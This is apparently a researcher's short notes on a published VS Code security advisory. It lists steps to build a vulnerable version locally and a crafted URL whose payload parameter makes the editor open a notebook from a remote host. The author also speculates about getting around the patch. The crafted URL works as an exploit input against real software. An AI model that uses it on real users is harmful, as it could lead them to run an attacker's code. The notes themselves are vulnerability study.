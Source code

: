 # Notes on GHSA-pw56-c55x-cm9m
https://github.com/google/security-research/security/advisories/GHSA-pw56-c55x-cm9m

Dumb bug. but I don't use python notebooks...lately, but I am curious about how to make this happen like getting someone to visit vscode.dev, it looks like you can have local files open, but does that give the terminal permissions? even when I try to run the terminal in my local version I cannot get it to work becaus you need a local session or whatever and it isn't clear how to create one

## Repro 
Run goser.go 

1. git clone github.com/microsoft/vscode
2. git checkout -b vuln v1.71.1 # I did v1.73.1 which is supposedly patched, but the patch lets you open settings, maybe more can be done
3. Follow that https://github.com/microsoft/vscode/wiki/How-to-Contribute
4. yarn
5.  .\scripts\code-web.bat
(separate terminal)
6. npm run watch
7. visit localhost:<port>/?payload=%5B%5B%22openFile%22,%22http://<ip>:<port>/something.ipynb%22%5d%5d